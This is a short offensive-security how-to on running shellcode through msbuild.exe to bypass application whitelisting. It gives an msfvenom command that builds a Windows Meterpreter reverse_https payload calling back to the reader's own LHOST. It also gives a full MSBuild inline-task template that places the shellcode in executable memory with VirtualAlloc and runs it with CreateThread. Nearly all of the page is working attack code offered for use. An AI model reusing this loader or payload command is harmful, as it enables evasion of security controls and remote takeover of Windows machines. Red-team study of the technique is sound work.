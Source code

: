 ## Execute C\#

### msbuild.exe

Use the following shell temlate and insert the csharp code and save as an xml

Replace “INSERT\_SHELLCODE\_HERE” in the template with the shellcode generated from Metasploit. 

Note1: This includes "byte\[\] shellcode = new byte\[\]"

Note2: Use metasploit to generate C\# shellcode with the follow command: “msfvenom -a x86 –platform windows -p windows/meterpreter/reverse\_https LHOST=192.168.X.X LPORT=443 -f csharp”. Replace the value of LHOST with your own ip address.

```
<Project ToolsVersion="4.0" xmlns="http://schemas.microsoft.com/developer/msbuild/2003">
 <!-- This inline task executes shellcode. -->
 <!-- C:\Windows\Microsoft.NET\Framework\v4.0.30319\msbuild.exe SimpleTasks.csproj -->
 <!-- Save This File And Execute The Above Command -->
 <!-- Author: Casey Smith, Twitter: @subTee -->
 <!-- License: BSD 3-Clause -->
 <Target Name="Hello">
 <ClassExample />
 </Target>
 <UsingTask
 TaskName="ClassExample"
 TaskFactory="CodeTaskFactory"
 AssemblyFile="C:\Windows\Microsoft.Net\Framework\v4.0.30319\Microsoft.Build.Tasks.v4.0.dll" >
 <Task>
 
 <Code Type="Class" Language="cs">
 <![CDATA[
 using System;
 using System.Runtime.InteropServices;
 using Microsoft.Build.Framework;
 using Microsoft.Build.Utilities;
 public class ClassExample : Task, ITask
 { 
 private static UInt32 MEM_COMMIT = 0x1000; 
 private static UInt32 PAGE_EXECUTE_READWRITE = 0x40; 
 [DllImport("kernel32")]
 private static extern UInt32 VirtualAlloc(UInt32 lpStartAddr,
 UInt32 size, UInt32 flAllocationType, UInt32 flProtect); 
 [DllImport("kernel32")]
 private static extern IntPtr CreateThread( 
 UInt32 lpThreadAttributes,
 UInt32 dwStackSize,
 UInt32 lpStartAddress,
 IntPtr param,
 UInt32 dwCreationFlags,
 ref UInt32 lpThreadId 
 );
 [DllImport("kernel32")]
 private static extern UInt32 WaitForSingleObject( 
 IntPtr hHandle,
 UInt32 dwMilliseconds
 ); 
 public override bool Execute()
 {
 byte[] shellcode = new byte[] { INSERT_SHELLCODE_HERE } };
 
 UInt32 funcAddr = VirtualAlloc(0, (UInt32)shellcode.Length,
 MEM_COMMIT, PAGE_EXECUTE_READWRITE);
 Marshal.Copy(shellcode, 0, (IntPtr)(funcAddr), shellcode.Length);
 IntPtr hThread = IntPtr.Zero;
 UInt32 threadId = 0;
 IntPtr pinfo = IntPtr.Zero;
 hThread = CreateThread(0, 0, funcAddr, pinfo, 0, ref threadId);
 WaitForSingleObject(hThread, 0xFFFFFFFF);
 return true;
 } 
 } 
 ]]>
 </Code>
 </Task>
 </UsingTask>
 </Project>
```





References:

https://blog.conscioushacker.io/index.php/2017/11/17/application-whitelisting-bypass-msbuild-exe/



